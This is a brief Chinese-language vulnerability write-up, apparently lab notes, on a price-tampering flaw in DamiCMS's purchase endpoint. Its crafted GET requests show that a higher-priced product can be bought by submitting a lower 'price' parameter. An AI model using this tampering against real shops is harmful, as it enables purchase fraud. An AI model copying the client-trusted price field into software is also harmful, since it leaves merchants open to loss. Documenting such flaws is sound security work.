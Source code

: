<img src="图片\Snipaste_2023-02-07_22-12-18.png" alt="Snipaste_2023-02-07_22-12-18" style="zoom:80%;" />

#### 以低商品的价格购买高价格商品

一个测试产品的价格  `price=4000`

```
GET /damicms/index.php?m=Member&a=gobuy&iscart=0&id=66&name=%E6%B5%8B%E8%AF%95%E4%BA%A7%E5%93%81&qty=1&price=4000&gtype=%E7%81%B0%E8%89%B2&pic=/damicms/Public/Uploads/thumb/thumb_1393207060.jpg HTTP/1.1
```

大米手机专业开发版价格 `price=5400`

```
GET /damicms/index.php?m=Member&a=gobuy&iscart=0&id=69&name=%E5%A4%A7%E7%B1%B3CMS%E6%89%8B%E6%9C%BA%E5%BC%80%E5%8F%91%E4%B8%93%E7%89%88&qty=1&price=5400&gtype=%E7%81%B0%E8%89%B2&pic=/damicms/Public/Uploads/thumb/thumb_1393206337.jpg HTTP/1.1
```

我们替换`大米手机专业开发版`除了 `price` 字段的数据到  `测试产品` 里，我们发现`大米手机专业开发版价格` 为 `price=4000`

<img src="图片\Snipaste_2023-02-07_22-29-18.png" alt="Snipaste_2023-02-07_22-29-18" style="zoom:80%;" />
